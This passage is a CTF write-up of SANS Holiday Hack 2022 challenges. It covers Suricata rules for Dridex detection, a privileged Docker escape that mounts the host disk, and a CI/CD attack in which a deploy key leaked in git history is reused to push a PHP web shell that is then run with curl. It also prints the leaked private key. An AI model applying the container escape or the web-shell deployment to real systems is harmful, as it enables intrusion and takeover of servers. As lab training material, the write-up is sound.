          "ScriptBlockText": "cat .\\Recipe"
          "ScriptBlockText": "del .\\Recipe.txt"
          "ScriptBlockText": "del .\\recipe_updated.txt"

We see that the word :code:`honey` was replaced with :code:`fish oil`.
Therefore, the most likely scenario is that honey is the secret ingredient, but
Grinchum replaced it with fish oil in the recipe.

The fish oil must be what attracted the Snowrog.

.. image:: /images/sans-christmas-challenge-2022/dustygiftwrap.png
    :alt: Dusty Giftwrap, same image as before.
    :align: center

*Dusty Giftwrap says*

    Say, you did it! Thanks a million!

    Now we can mix in the proper ingredients and stop attracting the Snowrog!

    I'm all set now! Can you help Fitzy over there wield the exalted Suricata?

    It can be a bit mystifying at first, but this `Suricata Tome
    <https://suricata.readthedocs.io/en/suricata-6.0.0/rules/intro.html>`__
    should help you fathom it.

    I sure hope you can make it work!

Suricata Regatta
----------------

.. image:: /images/sans-christmas-challenge-2022/fitzyshortstack.png
    :alt: Dusty Giftwrap is an elf with almond-shaped eyes, a beard and
        glorious mustache. He's wearing a white shirt, with a brown skirt and
        suspenders, and black shoes. He's wearing a turquoise Christmas hat.
    :align: center

*Fitzy Shortstack says*

    Hm?.. Hello...

    Sorry, I don't mean to be uncharaceristically short with you.

    There's just this abominable Snowrog here, and I'm trying to comprehend
    Suricata to stop it from getting into the kitchen.

    I believe that if I can phrase these Suricata incantations correctly,
    they'll create a spell that will generate warnings.

    And hopefully those warnings will scare off the Snowrog!

    Only... I'm quite baffled. Maybe you can give it a go?

And indeed, we see the Snowrog barring the way:

.. image:: /images/sans-christmas-challenge-2022/snowrog.png
    :alt: The Snowrog is a giant anthropomorphic snow monster. It's a basically
        a snow Balrog.
    :align: center

*The Snowrog says*

    *Fierce gusts of wind wreath about it and snow swirls in its aura*

    *Its frozen mane shimmers, and chilled air fogs behind it*

    *Its left hand made of fingers of tongue-affixing icicles*

    *Its right a fist like that of a densely packed snowball*

    *The Snowrog focuses on you with an icy-cold glare*

    *And bellows a roar more thunderous than an avalanche*

Let's get rid of it!

.. code-block:: text
    :hl_lines: 7 8

    Use your investigative analysis skills and the suspicious.pcap file to help develop Suricata rules for the elves!

    There's a short list of rules started in suricata.rules in your home directory.

    First off, the STINC (Santa's Team of Intelligent Naughty Catchers) has a lead for us.
    They have some Dridex indicators of compromise to check out.
    First, please create a Suricata rule to catch DNS lookups for adv.epostoday.uk.
    Whenever there's a match, the alert message (msg) should read Known bad DNS lookup, possible Dridex infection.
    Add your rule to suricata.rules

    Once you think you have it right, run ./rule_checker to see how you've done!
    As you get rules correct, rule_checker will ask for more to be added.

    If you want to start fresh, you can exit the terminal and start again or cp suricata.rules.backup suricata.rules

    Good luck, and thanks for helping save the North Pole!

I don't use Suricata in my day-to-day work. To create the rules, you can take
inspiration from the previous rules in the :code:`suricata.rules` file, or look
at `the documentation <https://suricata.readthedocs.io/en/suricata-6.0.0/rules/intro.html>`__.
It seems to be important to have a unique :code:`sid` for each created rule,
so keep that in mind.

Let's create the DNS rule:

.. code-block:: text

    alert dns any any -> any any (msg:"Known bad DNS lookup, possible Dridex infection"; dns.query; content:"adv.epostoday.uk"; nocase; sid:1337;)

Now we can run the rule checker:

.. code-block:: console
    :hl_lines: 6 9 10

    elf@703ea04f1883:~$ ./rule_checker
    3/1/2023 -- 14:26:55 - <Notice> - This is Suricata version 6.0.8 RELEASE running in USER mode
    3/1/2023 -- 14:26:55 - <Notice> - all 5 packet processing threads, 4 management threads initialized, engine started.
    3/1/2023 -- 14:26:55 - <Notice> - Signal Received.  Stopping engine.
    3/1/2023 -- 14:26:55 - <Notice> - Pcap-file module read 1 files, 5172 packets, 3941260 bytes
    First rule looks good!

    STINC thanks you for your work with that DNS record! In this PCAP, it points to 192.185.57.242.
    Develop a Suricata rule that alerts whenever the infected IP address 192.185.57.242 communicates with internal systems over HTTP.
    When there's a match, the message (msg) should read Investigate suspicious connections, possible Dridex infection

Our first rule seems correct, and must now create a second one that creates an
alert when HTTP communications occur with :code:`192.185.57.242`:

.. code-block:: text

    alert http 192.185.57.242 any -> $HOME_NET any (msg:"Investigate suspicious connections, possible Dridex infection";sid:1338;)
    alert http $HOME_NET any -> 192.185.57.242 any (msg:"Investigate suspicious connections, possible Dridex infection";sid:1339;)

Let's check our new rules:

.. code-block:: console
    :hl_lines: 8 11 12

    elf@703ea04f1883:~$ ./rule_checker
    3/1/2023 -- 14:31:06 - <Notice> - This is Suricata version 6.0.8 RELEASE running in USER mode
    3/1/2023 -- 14:31:06 - <Notice> - all 5 packet processing threads, 4 management threads initialized, engine started.
    3/1/2023 -- 14:31:06 - <Notice> - Signal Received.  Stopping engine.
    3/1/2023 -- 14:31:07 - <Notice> - Pcap-file module read 1 files, 5172 packets, 3941260 bytes
    First rule looks good!

    Second rule looks good!

    We heard that some naughty actors are using TLS certificates with a specific CN.
    Develop a Suricata rule to match and alert on an SSL certificate for heardbellith.Icanwepeh.nagoya.
    When your rule matches, the message (msg) should read Investigate bad certificates, possible Dridex infection

Here's the corresponding Suricata rule:

.. code-block:: text

    alert tls any any -> any any (msg:"Investigate bad certificates, possible Dridex infection"; tls.cert_subject; content:"heardbellith.Icanwepeh.nagoya"; nocase;sid:1340;)

Let's check it:

.. code-block:: console
    :hl_lines: 10 13 14

    elf@703ea04f1883:~$ ./rule_checker
    3/1/2023 -- 14:32:38 - <Notice> - This is Suricata version 6.0.8 RELEASE running in USER mode
    3/1/2023 -- 14:32:38 - <Notice> - all 5 packet processing threads, 4 management threads initialized, engine started.
    3/1/2023 -- 14:32:38 - <Notice> - Signal Received.  Stopping engine.
    3/1/2023 -- 14:32:38 - <Notice> - Pcap-file module read 1 files, 5172 packets, 3941260 bytes
    First rule looks good!

    Second rule looks good!

    Third rule looks good!

    OK, one more to rule them all and in the darkness find them.
    Let's watch for one line from the JavaScript: let byteCharacters = atob
    Oh, and that string might be GZip compressed - I hope that's OK!
    Just in case they try this again, please alert on that HTTP data with message Suspicious JavaScript function, possible Dridex infection

We're told that the content might be compressed using GZip. Luckily, according
to `Suricata's documentation <https://suricata.readthedocs.io/en/suricata-6.0.0/rules/http-keywords.html#id1>`__,
using :code:`http.response_body` allows to match on GZipped-content:

.. code-block:: text

     alert http any any -> any any (msg:"Suspicious JavaScript function, possible Dridex infection";http.response_body; content:"let byteCharacters = atob"; sid:1341;)

One last time:

.. code-block:: console
    :hl_lines: 6 8 10 12

    elf@703ea04f1883:~$ ./rule_checker
    3/1/2023 -- 14:42:38 - <Notice> - This is Suricata version 6.0.8 RELEASE running in USER mode
    3/1/2023 -- 14:42:38 - <Notice> - all 5 packet processing threads, 4 management threads initialized, engine started.
    3/1/2023 -- 14:42:38 - <Notice> - Signal Received.  Stopping engine.
    3/1/2023 -- 14:42:38 - <Notice> - Pcap-file module read 1 files, 5172 packets, 3941260 bytes
    First rule looks good!

    Second rule looks good!

    Third rule looks good!

    Fourth rule looks good! You've done it - thank you!

This gives us our first ring, the Tolkien Ring:

.. image:: /images/sans-christmas-challenge-2022/tolkien_ring.png
    :alt: The Tolkien Ring. It's a simple golden ring, like the one from Lord
        of the Rings, etched with a network diagram resembling a token ring
        network.
    :align: center

.. image:: /images/sans-christmas-challenge-2022/fitzyshortstack.png
    :alt: Dusty Giftwrap, same image as before.
    :align: center

*Fitzy Shortstack says*

    Woo hoo - you wielded Suricata magnificently! Thank you!

    Now to shout the final warning of power to the Snowrog...

    YOU...SHALL NOT...PASS!!!

And with that, the Snowrog disapears! As we leave, we see Grinchum:

.. image:: /images/sans-christmas-challenge-2022/smeagolmad1.png
    :alt: Grinchum is now frowning.
    :align: center

*Grinchum says*

    😒 *Who took you, Precious? How did they take you? Mustn't happen again.*

    🙂 **Oh, hello, humanses. Maybe we can offer help?**

    😏 **Yes... Grinchum will help the humanses.**

    *We are trying to distract them from finding the rest of you, Preciouses,
    with talk of hints and coinses.*

    🙂 **Have you found the coffers yet? The ones at the end of hidden paths?**

    😏 **There's hintses in them, and coinses, they're veeerrryy special.**

    🙂 **Just look hard, for little, bitty, speckles or other oddities.**

    *Don't worry, they will not look for you, Preciouses. Shhh...*

    🙂 **Go on, humanses. Start searching!**

Recover the Elfen Ring
~~~~~~~~~~~~~~~~~~~~~~

We keep making our way down where we find Morcel Nougat. He teaches us about
another kind of people, the `Flobbits <https://en.wikipedia.org/wiki/Hobbit>`__.

.. image:: /images/sans-christmas-challenge-2022/morcelnougat.png
    :alt: Morcel Nougat is an elf with slanted eyes, with a beard on his chin
        and a mustache. He's wearing a white T-Shirt, brown-greenish pants,
        dark green shoes, and a yellow Christmas hat.
    :align: center

*Morcel Nougat says*

    Hello, I'm Morcel Nougat, elf extraordinaire!

    I was in the first group of elves that started digging into the snow.

    Eventually, we burrowed deep enough that we came upon an already existing
    tunnel network.

    As we explored it, we encountered a people that claimed to be the Flobbits.

    We were all astonished, because we learn a little about the Flobbits in
    history class, but nobody's ever seen them.

    They were part of the Great Schism hundreds of years ago that split the
    Munchkins and the Elves.

    Not much else was known, until we met them in the tunnels! Turns out, their
    exodus took them to Middle Earth.

    They only appear when the 5 Rings are in jeopardy. Though, the Rings
    weren't lost until after we started digging. Hmm...

    Anyways, be careful as you venture down further. I hear something sinister
    is in the depths of these tunnels.

Clone with a Difference
-----------------------

We keep going, take a boat, and meet Bow Ninecandle:

.. image:: /images/sans-christmas-challenge-2022/bowninecandle.png
    :alt: Bow Ninecandle is an elf wearing a white T-Shirt, brown-greenish
        pants, dark blue shoes, and a purple Christmas hat. He's smiling from
        ear to ear.
    :align: center

*Bow Ninecandle says*

    Well hello! I'm Bow Ninecandle!

    Have you ever used Git before? It's so neat!

    It adds so much convenience to DevOps, like those times when a new person
    joins the team.

    They can just clone the project, and start helping out right away!

    Speaking of, maybe you could help me out with cloning this repo?

    I've heard there's multiple methods, but I only know how to do one.

    If you need more help, check out the `panel of very senior DevOps experts.
    <https://youtu.be/vIQY_FH1SVk>`__

Let's give him a hand:

.. code-block:: text

    We just need you to clone one repo: git clone git@haugfactory.com:asnowball/aws_scripts.git
    This should be easy, right?

    Thing is: it doesn't seem to be working for me. This is a public repository though. I'm so confused!

    Please clone the repo and cat the README.md file.
    Then runtoanswer and tell us the last word of the README.md file!

Bow seems to try to clone the Git repository through SSH. If we try the
command, we can see that it indeed tries to connect through SSH (since we must
accept the SSH server key) and then fails because we don't have enough rights:

.. code-block:: console

    bow@c573fb1d9664:~$ git clone git@haugfactory.com:asnowball/aws_scripts.git
    Cloning into 'aws_scripts'...
    The authenticity of host 'haugfactory.com (34.171.230.38)' can't be established.
    ECDSA key fingerprint is SHA256:CqJXHictW5q0bjAZOknUyA2zzRgSEJLmdMo4nPj5Tmw.
    Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
    Warning: Permanently added 'haugfactory.com,34.171.230.38' (ECDSA) to the list of known hosts.
    git@haugfactory.com: Permission denied (publickey).
    fatal: Could not read from remote repository.

    Please make sure you have the correct access rights
    and the repository exists.

Indeed, it seems that `anonymous SSH access is not possible
<https://stackoverflow.com/a/46993922>`__. So let's convert the command to use
HTTPS, which allows anonymous access:

.. code-block:: console

    bow@c573fb1d9664:~$ git clone https://haugfactory.com/asnowball/aws_scripts
    Cloning into 'aws_scripts'...
    warning: redirecting to https://haugfactory.com/asnowball/aws_scripts.git/
    remote: Enumerating objects: 64, done.
    remote: Total 64 (delta 0), reused 0 (delta 0), pack-reused 64
    Unpacking objects: 100% (64/64), 23.83 KiB | 1.32 MiB/s, done.

Great, it works! Now let's look at the last word in the :code:`README.md` file
and answer:

.. code-block:: console

    bow@c573fb1d9664:~$ tail -n 1 aws_scripts/README.md
    If you have run out of energy or time for your project, put a note at the top of the README saying that development has slowed down or stopped completely. Someone may choose to fork your project or volunteer to step in as a maintainer or owner, allowing your project to keep going. You can also make an explicit request for maintainers.
    bow@c573fb1d9664:~$ runtoanswer
                                            Read that repo!
    What's the last word in the README.md file for the aws_scripts repo?

    > maintainers
    Your answer: maintainers

    Checking......
    Your answer is correct!

.. image:: /images/sans-christmas-challenge-2022/bowninecandle.png
    :alt: Bow Ninecandle, same image as before.
    :align: center

*Bow Ninecandle says*

    Wow - great work! Thank you!

    Say, if you happen to be testing containers for security, there are some
    things you should think about.

    Developers love to give ALL TeH PERMz so that things "just work," but it
    can cause real problems.

    It's always smart to check for excessive user and container permissions.

    You never know! You might be able to interact with host processes or
    filesystems!

Prison Escape
-------------

We go on our merry watery way, where we find a house. We meet Tinsel Upatree:

.. image:: /images/sans-christmas-challenge-2022/tinselupatree.png
    :alt: Tinsel Upatree is an elf with a white mustache, a white sweater,
        blue pants, black snow boots and a green Christmas hat.
    :align: center

*Tinsel Upatree says*

    Hiya hiya, I'm Tinsel Upatree!

    Check me out, I'm working side-by-side with a real-life Flobbit. Epic!

    Anyway, would ya' mind looking at this terminal with me?

    It takes a few seconds to start up, but then you're logged into a super
    secure container environment!

    Or maybe it isn't so secure? I've heard about container escapes, and it has
    me a tad worried.

    Do you think you could test this one for me? I'd appreciate it!

According to our badge, we must get the content of the file
:code:`/home/jailer/.ssh/jail.key.priv`. Let's have a look:

.. code-block:: text

    Greetings Noble Player,

    You find yourself in a jail with a recently captured Dwarven Elf.

    He desperately asks your help in escaping for he is on a quest to aid a
    friend in a search for treasure inside a crypto-mine.

    If you can help him break free of his containment, he claims you would
    receive "MUCH GLORY!"

    Please, do your best to un-contain yourself and find the keys to both of
    your freedom.

This is most likely a Docker-escape challenge. Let's see if we are `running in
a Docker container <https://stackoverflow.com/a/23558932>`__:


.. code-block:: console

    grinchum-land:~$ cat /proc/1/cgroup
    11:cpuset:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    10:pids:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    9:devices:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    8:freezer:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    7:blkio:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    6:perf_event:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    5:memory:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    4:hugetlb:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    3:net_cls,net_prio:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    2:cpu,cpuacct:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    1:name=systemd:/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4
    0::/docker/517a4547bbc41db2dbf4b434b5a7fac6c5d75592e32e44dcd8fdb1be5348b5a4

Yeah, definitely a Docker container. Let's try `common Docker escape techniques
<https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation>`__
(shout out to `@carlospolop <https://twitter.com/carlospolopm>`__, I often use
his `PEASS <https://github.com/carlospolop/PEASS-ng>`__ during engagements).

The usual technique is to check if we're running in a privileged container. The
command to check is :code:`capsh --print`:

.. code-block:: console

    grinchum-land:~$ capsh --print
    -bash: capsh: command not found

Hmm, we don't have the :code:`capsh` command. Another technique to check if
we're in a privileged container is to `use a command that necessitates a
privileged capacity <https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1>`__.
Let's use the command given in `@vickieli7 <https://twitter.com/vickieli7>`__'s
article:

.. code-block:: console

    grinchum-land:~$ sudo ip link add dummy0 type dummy
    grinchum-land:~$ ip link sh dummy0
    2: dummy0: <BROADCAST,NOARP> mtu 1500 qdisc noop state DOWN qlen 1000
        link/ether e2:9f:f0:fc:53:3e brd ff:ff:ff:ff:ff:ff

It seems that it worked, yay! We're most likely running in a privileged
container. We can try to `mount the host's disk <https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounting-disk-poc1>`__
so that we can access it through the container. Let's first find the correct
partition:

.. code-block:: console

    grinchum-land:~$ sudo fdisk -l
    Disk /dev/vda: 2048 MB, 2147483648 bytes, 4194304 sectors
    2048 cylinders, 64 heads, 32 sectors/track
    Units: sectors of 1 * 512 = 512 bytes

    Disk /dev/vda doesn't contain a valid partition table

The disk is apparently :code:`/dev/vda`, but it does not have a partition
table. Maybe we can try and mount it as is:

.. code-block:: console

    grinchum-land:~$ sudo mount /dev/vda /mnt
    grinchum-land:~$ ls /mnt
    bin   dev  home  lib32  libx32      media  opt   root  sbin  sys  usr
    boot  etc  lib   lib64  lost+found  mnt    proc  run   srv   tmp  var

Looks good! Let's recover the :code:`/mnt/home/jailer/.ssh/jail.key.priv`
file:

.. code-block:: console
    :hl_lines: 38

    grinchum-land:~$ cat /mnt/home/jailer/.ssh/jail.key.priv

                    Congratulations!

              You've found the secret for the
              HHC22 container escape challenge!

                         .--._..--.
                  ___   ( _'-_  -_.'
              _.-'   `-._|  - :- |
          _.-'           `--...__|
       .-'                       '--..___
      / `._                              \
       `. `._               one           |
         `. `._                           /
           '. `._    :__________....-----'
             `..`---'    |-_  _- |___...----..._
                         |_....--'             `.`.
                   _...--'                       `.`.
              _..-'                             _.'.'
           .-'             step                _.'.'
           |                               _.'.'
           |                   __....------'-'
           |     __...------''' _|
           '--'''        |-  - _ |
                   _.-''''''''''''''''''-._
                _.'                        |\
              .'                         _.' |
              `._          closer           |:.'
                `._                     _.' |
                   `..__                 |  |
                        `---.._.--.    _|  |
                         | _   - | `-.._|_.'
              .--...__   |   -  _|
             .'_      `--.....__ |
            .'_                 `--..__
           .'_                         `.
          .'_    082bb339ec19de4935867   `-.
          `--..____                        _`.
                   ```--...____          _..--'
                         | - _ ```---.._.'
                         |   - _ |
                         |_ -  - |
                         |   - _ |
                         | -_  -_|
                         |   - _ |
                         |   - _ |
                         | -_  -_|

The answer is :code:`082bb339ec19de4935867`.

.. image:: /images/sans-christmas-challenge-2022/tinselupatree.png
    :alt: Tinsel Upatree, same image as before.
    :align: center

*Tinsel Upatree says*

    Great! Thanks so much for your help!

    Now that you've helped me with this, I have time to tell you about the
    deployment tech I've been working on!

    Continuous Integration/Continuous Deployment pipelines allow developers to
    iterate and innovate quickly.

    With this project, once I push a commit, a GitLab runner will automatically
    deploy the changes to production.

    WHOOPS! I didn’t mean to commit that to
    http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git...

    Unfortunately, if attackers can get in that pipeline, they can make an
    awful mess of things!

Jolly CI/CD
-----------

.. image:: /images/sans-christmas-challenge-2022/rippinproudboot.png
    :alt: Rippin Proudboot is a Flobbit with brown skin with brown curly hait.
        He's wearing a white shirt, a green jacket, black pants. His hairy feet
        are bare.
    :align: center

*Rippin Proudboot says*

    Yes, hello, I'm Rippin Proudboot. Can I help you?

    Oh, you'd like to help me? Well, I'm not quite sure you can, but we shall
    see.

    The elves here introduced me to this new CI/CD technology. It seems quite
    efficient.

    Unfortunately, the sporcs seem to have gotten their grubby mits on it as
    well, along with the Elfen Ring.

    They've used CI/CD to launch a website, and the Elfen Ring to power it.

    Might you be able to check for any misconfigurations or vulnerabilities in
    their CI/CD pipeline?

    If you do find anything, use it to exploit the website, and get the ring
    back!

Let's connect to the terminal. Careful, once connected to the terminal, we must
still wait for the virtual environment to spin up other resources, so I advise
you to wait a couple of minutes before trying anything.

.. code-block:: text

    Greetings Noble Player,

    Many thanks for answering our desperate cry for help!

    You may have heard that some evil Sporcs have opened up a web-store selling
    counterfeit banners and flags of the many noble houses found in the land of
    the North! They have leveraged some dastardly technology to power their
    storefront, and this technology is known as PHP!

    ***gasp***

    This strorefront utilizes a truly despicable amount of resources to keep
    the website up. And there is only a certain type of Christmas Magic capable
    of powering such a thing… an Elfen Ring!

    Along with PHP there is something new we've not yet seen in our land.
    A technology called Continuous Integration and Continuous Deployment!

    Be wary!

    Many fair elves have suffered greatly but in doing so, they've managed to
    secure you a persistent connection on an internal network.

    BTW take excellent notes!

    Should you lose your connection or be discovered and evicted the
    elves can work to re-establish persistence. In fact, the sound off fans
    and the sag in lighting tells me all the systems are booting up again right
    now.

    Please, for the sake of our Holiday help us recover the Ring and save
    Christmas!

Looks like the Sporcs are running a web-store powered by an Elfen Ring. If we
can compromise the web site, we can get our hands on the ring.

If we look back at what Tinsel told us, he published an unexpected thing on
http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git.
Let's clone the repository and have a look at the Git log:

.. code-block:: console
    :hl_lines: 40 44

    grinchum-land:~$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
    Cloning into 'wordpress.flag.net.internal'...
    remote: Enumerating objects: 10195, done.
    remote: Total 10195 (delta 0), reused 0 (delta 0), pack-reused 10195
    Receiving objects: 100% (10195/10195), 36.49 MiB | 20.78 MiB/s, done.
    Resolving deltas: 100% (1799/1799), done.
    Updating files: 100% (9320/9320), done.
    grinchum-land:~$ cd wordpress.flag.net.internal
    commit 37b5d575bf81878934adb937a4fff0d32a8da105
    grinchum-land:~/wordpress.flag.net.internal$ git log
    Author: knee-oh <sporx@kringlecon.com>
    Date:   Wed Oct 26 13:58:15 2022 -0700

        updated wp-config

    commit a59cfe83522c9aeff80d49a0be2226f4799ed239
    Author: knee-oh <sporx@kringlecon.com>
    Date:   Wed Oct 26 12:41:05 2022 -0700

        update gitlab.ci.yml

    commit a968d32c0b58fd64744f8698cbdb60a97ec604ed
    Author: knee-oh <sporx@kringlecon.com>
    Date:   Tue Oct 25 16:43:48 2022 -0700

        test

    commit 7093aad279fc4b57f13884cf162f7d80f744eea5
    Author: knee-oh <sporx@kringlecon.com>
    Date:   Tue Oct 25 15:08:14 2022 -0700

        add gitlab-ci

    commit e2208e4bae4d41d939ef21885f13ea8286b24f05
    Author: knee-oh <sporx@kringlecon.com>
    Date:   Tue Oct 25 13:43:53 2022 -0700

        big update

    commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
    Author: knee-oh <sporx@kringlecon.com>
    Date:   Tue Oct 25 13:42:54 2022 -0700

        whoops

    commit abdea0ebb21b156c01f7533cea3b895c26198c98
    Author: knee-oh <sporx@kringlecon.com>
    Date:   Tue Oct 25 13:42:13 2022 -0700

        added assets

    commit a7d8f4de0c594a0bbfc963bf64ab8ac8a2f166ca
    Author: knee-oh <sporx@kringlecon.com>
    Date:   Mon Oct 24 17:32:07 2022 -0700

        init commit

Commit :code:`e19f653bde9ea3de6af21a587e41e7a909db1ca5` has a message that
says :code:`whoops`. This is obviously a commit that tries to correct an error.
Let's see the difference between this commit and the previous one:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ git diff abdea0ebb21b156c01f7533cea3b895c26198c98..e19f653bde9ea3de6af21a587e41e7a909db1ca5
    diff --git a/.ssh/.deploy b/.ssh/.deploy
    deleted file mode 100644
    index 3f7a9e3..0000000
    --- a/.ssh/.deploy
    +++ /dev/null
    @@ -1,7 +0,0 @@
    ------BEGIN OPENSSH PRIVATE KEY-----
    -b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
    -QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
    -9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
    -AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
    -PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
    ------END OPENSSH PRIVATE KEY-----
    diff --git a/.ssh/.deploy.pub b/.ssh/.deploy.pub
    deleted file mode 100644
    index 8c0b43c..0000000
    --- a/.ssh/.deploy.pub
    +++ /dev/null
    @@ -1 +0,0 @@
    -ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com

The commit deletes two files, called :code:`.ssh/.deploy` and
:code:`.ssh/.deploy.pub`, a public/private SSH key pair. Given the name, it's
most likely an SSH key pair used to deploy to the Git repository.

This means that we can most likely commit code to the Git repository. What's
more, we were told that there's a CI/CD mechanism that will automatically
deploy new versions of the website when there's a new commit. We can see that
in the CI/CD configuration file in the Git repository:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ cat .gitlab-ci.yml
    stages:
      - deploy

    deploy-job:
      stage: deploy
      environment: production
      script:
        - rsync -e "ssh -i /etc/gitlab-runner/hhc22-wordpress-deploy" --chown=www-data:www-data -atv --delete --progress ./ root@wordpress.flag.net.internal:/var/www/html

So, if we commit a malicious file, say a web shell, it will be deployed on the
Sporcs web-store, and we can take control of it.

Let's prepare our local environment so we can push to the Git repository using
the SSH key pair we found.

First, we'll recover the private key:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
    Note: switching to 'abdea0ebb21b156c01f7533cea3b895c26198c98'.

    You are in 'detached HEAD' state. You can look around, make experimental
    changes and commit them, and you can discard any commits you make in this
    state without impacting any branches by switching back to a branch.

    If you want to create a new branch to retain commits you create, you may
    do so (now or later) by using -c with the switch command. Example:

      git switch -c <new-branch-name>

    Or undo this operation with:

      git switch -

    Turn off this advice by setting config variable advice.detachedHead to false

    HEAD is now at abdea0e added assets

    grinchum-land:~/wordpress.flag.net.internal$ cp .ssh/.deploy ~/deploy

We'll put the correct rights on it, and create a working SSH configuration so
that the key is used for the Git repository:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ chmod 600 ~/deploy
    grinchum-land:~/wordpress.flag.net.internal$ mkdir ~/.ssh
    grinchum-land:~/wordpress.flag.net.internal$ cat << EOF > ~/.ssh/config
    > Host gitlab.flag.net.internal
    >         User git
    >         IdentityFile /home/samways/deploy
    > EOF

Then, we must configure the :code:`remote` of our Git repository to use SSH.
Indeed, since we cloned the repository through HTTP, the :code:`remote` is
configured with this protocol:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ git remote -v
    origin  http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git (fetch)
    origin  http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git (push)

So let's modify our :code:`remote` so that it uses the SSH protocol:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ git remote set-url --add origin git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git
    grinchum-land:~/wordpress.flag.net.internal$ git remote set-url --delete origin  http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git

Let's check if everything is fine:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ git remote -v
    origin  git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git (fetch)
    origin  git@gitlab.flag.net.internal:rings-of-powder/wordpress.flag.net.internal.git (push)

Perfect! Now we just configure our local Git install with a name and an email
address:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ git config --global user.email "samways@grinchum-land.flag.net.internal"
    grinchum-land:~/wordpress.flag.net.internal$ git config --global user.name "samways@grinchum-land.flag.net.internal"

And we're all set! Now, we can make our malicious commit. Let's
:code:`checkout` back to the most recent commit, and create our web shell:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ git checkout main
    Previous HEAD position was abdea0e added assets
    Switched to branch 'main'
    Your branch is up to date with 'origin/main'.
    grinchum-land:~/wordpress.flag.net.internal$ cat << EOF > cmd.php
    >     <?php system($_GET['c']); ?>
    > EOF

It's commit time:

.. code-block:: console

    grinchum-land:~/wordpress.flag.net.internal$ git add cmd.php
    grinchum-land:~/wordpress.flag.net.internal$ git commit -m "important commit"
    [main 0d54146] important commit
     1 file changed, 1 insertion(+)
     create mode 100644 cmd.php
    grinchum-land:~/wordpress.flag.net.internal$ git push
    Enumerating objects: 4, done.
    Counting objects: 100% (4/4), done.
    Delta compression using up to 2 threads
    Compressing objects: 100% (2/2), done.
    Writing objects: 100% (3/3), 308 bytes | 308.00 KiB/s, done.
    Total 3 (delta 1), reused 0 (delta 0), pack-reused 0
    To gitlab.flag.net.internal:/rings-of-powder/wordpress.flag.net.internal.git
       37b5d57..0d54146  main -> main

We wait a couple of seconds for the CI/CD pipeline to publish our webshell,
aaaaand:

.. code-block:: console

    grinchum-land:~$ curl http://wordpress.flag.net.internal/cmd.php?c=whoami
    www-data

Voilà! Now we can look at the :code:`/flag.txt` file:

.. code-block:: console
    :hl_lines: 29

    grinchum-land:~$ curl http://wordpress.flag.net.internal/cmd.php?c=cat+/flag.txt

                               Congratulations! You've found the HHC2022 Elfen Ring!


                                            ░░░░            ░░░░
                                    ░░                              ░░░░
                                ░░                                      ░░░░
                                                                            ░░
                          ░░                                                  ░░░░
                                                                                  ░░
                                          ░░░░▒▒▓▓▓▓▓▓▓▓▓▓▓▓▒▒░░░░                  ░░
                                      ░░▒▒▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒░░                ░░
                                  ░░▒▒▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▒▒                ░░
                              ░░▒▒▒▒▓▓▓▓▓▓▓▓▓▓░░              ▓▓▓▓▓▓▓▓▒▒░░░░            ░░░░
